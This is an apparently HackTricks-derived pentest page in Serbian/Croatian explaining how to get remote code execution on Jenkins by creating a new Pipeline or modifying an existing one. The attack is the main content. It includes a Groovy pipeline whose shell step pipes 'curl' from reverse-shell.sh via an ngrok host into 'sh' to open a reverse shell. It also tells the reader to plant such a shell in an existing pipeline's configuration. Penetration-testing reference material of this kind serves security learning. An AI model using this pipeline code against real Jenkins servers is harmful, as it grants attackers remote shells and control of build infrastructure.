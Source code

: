 # Jenkins RCE Kreiranje/Modifikovanje Pipelines

{{#include ../../banners/hacktricks-training.md}}

## Kreiranje novog Pipelines

U "New Item" (dostupno na `/view/all/newJob`) izaberite **Pipeline:**

![](<../../images/image (235).png>)

U **Pipeline sekciji** napišite **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Na kraju kliknite na **Save**, i **Build Now** i pipeline će biti izvršen:

![](<../../images/image (228).png>)

## Modifikovanje Pipeline-a

Ako možete pristupiti konfiguracionom fajlu nekog konfigurisanog pipeline-a, možete jednostavno **modifikovati dodajući svoj reverzni shell** i zatim ga izvršiti ili čekati da bude izvršen.

{{#include ../../banners/hacktricks-training.md}}
